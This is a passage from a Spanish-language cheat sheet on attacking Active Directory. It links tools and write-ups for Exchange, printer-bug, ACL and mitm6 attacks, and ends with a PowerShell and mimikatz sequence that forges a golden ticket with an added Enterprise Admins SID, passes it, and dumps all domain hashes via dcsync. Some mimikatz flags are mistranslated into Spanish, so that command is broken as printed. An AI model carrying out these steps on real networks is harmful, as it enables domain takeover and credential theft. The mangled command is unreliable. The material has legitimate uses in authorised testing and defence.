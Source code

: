 ### Abuso de Exchange

- [Abusar de una llamada a la API de Exchange desde DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Intercambiar privilegios por privilegios de administrador de dominio abusando de Exchange

### Armar un error de impresora

- [Error del servidor de impresión al administrador de dominio](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
- [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

### Abuso de ACL

- [Escalar privilegios con ACL en Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [aclpwn.py](https://github.com/fox-it/aclpwn.py)
- [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

### Abuso de IPv6 con mitm6

- [Comprometer redes IPv4 a través de IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [mitm6](https://github.com/fox-it/mitm6)

### Abuso del historial de SID

¿Qué es esto?: Si logramos comprometer un dominio secundario de un bosque y el filtrado de SID no está habilitado (generalmente no lo está), podemos abusar de él para escalar privilegios al administrador del dominio raíz del bosque. Esto es posible gracias al campo [Historial de SID](https://www.itprotoday.com/windows-8/sid-history) en un ticket TGT de Kerberos, que define los grupos de seguridad y privilegios adicionales.

Ejemplo de explotación:

```powershell
#Obtener el SID del dominio actual con PowerView
Get-DomainSID -Domain current.root.domain.local

#Obtener el SID del dominio raíz con PowerView
Get-DomainSID -Domain root.domain.local

#Crear el SID de los administradores empresariales
Formato: RootDomainSID-519

#Forjar el Golden Ticket adicional con mimikatz
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<SID del administrador empresarial> /desplazamiento inicial:0 /entrada final:600 /máximo de renovación:10080 /ticket:\ruta\a\ticket\golden.kirbi

#Inyectar el ticket en memoria
kerberos::ptt \path\to\ticket\golden.kirbi

#Listar el controlador de dominio del dominio raíz
dir \\dc.root.domain.local\C$

#O sincronizar con DC y volcar los hashes usando mimikatz
lsadump::dcsync /domain:root.domain.local /all
```
